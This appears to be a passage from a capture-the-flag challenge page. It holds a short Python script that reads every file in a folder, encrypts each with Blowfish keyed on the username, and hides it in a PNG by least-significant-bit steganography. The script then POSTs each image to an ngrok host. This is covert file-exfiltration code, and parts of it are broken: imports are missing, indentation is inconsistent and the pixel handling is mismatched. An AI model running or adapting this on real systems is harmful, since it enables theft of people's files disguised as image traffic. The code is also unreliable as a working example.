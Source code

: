 ```
from PIL import Image

IMG = "...(panjang bet)"
count = 0
paths = sorted(
    [
        "".join(random.choices(string.ascii_letters, k=8))
        for _ in range(len(os.listdir(sys.argv[1])))
    ]
)

for file in sorted(os.listdir(sys.argv[1])):
    with open(sys.argv[1] + "/" + file, "rb") as f:
        binary = f.read()
        binary = Blowfish.new(
            getpass.getuser().encode(),
            Blowfish.MODE_CBC,
            iv=base64.b64decode("a3JpcHRvZGQ="), # the base64 encoded string is kriptodd
        ).encrypt(pad(binary, Blowfish.block_size))
        img = Image.open(BytesIO(zlib.decompress(base64.b64decode(IMG))))
        pixels = img.load()
        countf = 0
        bit_string = "".join(f"{b:08b}" for b in binary)
        assert len(bit_string) < img.height * img.width * 3
        prev = "0"

    for y in range(img.height):
        for x in range(img.width):
            r, g, b, a = pixels[x, y]
            new_r = (
                (r & 0xFE) | int(bit_string[countf]) if countf < len(bit_string) else r
            )
            new_g = (
                (g & 0xFE) | int(bit_string[countf + 1])
                if countf + 1 < len(bit_string)
                else g
            )
            new_b = (
                (b & 0xFE) | int(bit_string[countf + 2])
                if countf + 2 < len(bit_string)
                else b
            )
            pixels[x, y] = (new_r, new_g, new_b)
            countf += 3

    new = BytesIO()
    img.save(new, format="PNG")
    new.seek(0)
    new = new.read()
    requests.post(f"http://c541-103-129-16-195.ngrok-free.app/{paths[count]}", data=new)
    count += 1
```
